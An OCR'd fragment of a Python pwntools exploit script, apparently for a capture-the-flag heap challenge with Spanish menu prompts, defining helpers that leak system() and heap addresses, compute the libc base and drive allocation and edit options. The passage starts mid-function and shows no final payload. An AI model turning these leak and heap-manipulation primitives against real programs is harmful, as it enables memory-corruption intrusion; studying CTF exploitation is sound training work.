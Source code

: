 ```python
        return process(elf.path)

def leak():
    io.sendlineafter(b"destino:", b"6")

    # Primer leak: system()
    system_leak = int(io.recvline().strip(), 16)
    log.success(f"system @ {hex(system_leak)}")

    # Calculamos base de libc
    libc.address = system_leak - libc.sym.system
    log.success(f"libc base @ {hex(libc.address)}")

    # Segundo leak: heap base
    heap = int(io.recvline().strip(), 16)
    log.success(f"heap base @ {hex(heap)}")

    return system_leak, heap


def build(size, name=b"A"):
    io.sendlineafter(b"destino:", b"1")
    io.sendlineafter(b"Tamano", str(size).encode())

    if isinstance(name, str):
        name = name.encode()

    io.sendafter(b"Nombre", name + b"\n")

def build2(size, name=b"A"):
    io.sendlineafter(b"destino:", b"1")
    io.sendlineafter(b"Tamano", hex(size).encode())

    if isinstance(name, str):
        name = name.encode()

    io.sendafter(b"Nombre", name + b"\n")


def renew(idx, data):
    io.sendlineafter(b"Elige tu destino:", b"3")
    io.sendlineafter(b"mara a renovar:", idx)
    io.sendafter(b"mara", data)


def malloc0(size, data):
    io.sendafter(b"Elige tu destino:  ", b"1")
    io.sendafter(b"(max 2000): ", size)
    io.sendafter(b"mara: ",data)


def malloc(size, name=b"A"):
    io.sendlineafter(b"Elige tu destino:", b"1")

    if isinstance(size, int):
        io.sendline(hex(size).encode()) 
    else:
        io.sendline(size if isinstance(size, bytes) else size.encode())

    # read(…, 31) → basta enviar un nombre + \n
    if isinstance(name, str):
        name = name.encode()
    io.sendlineafter(b"mara:", name)
```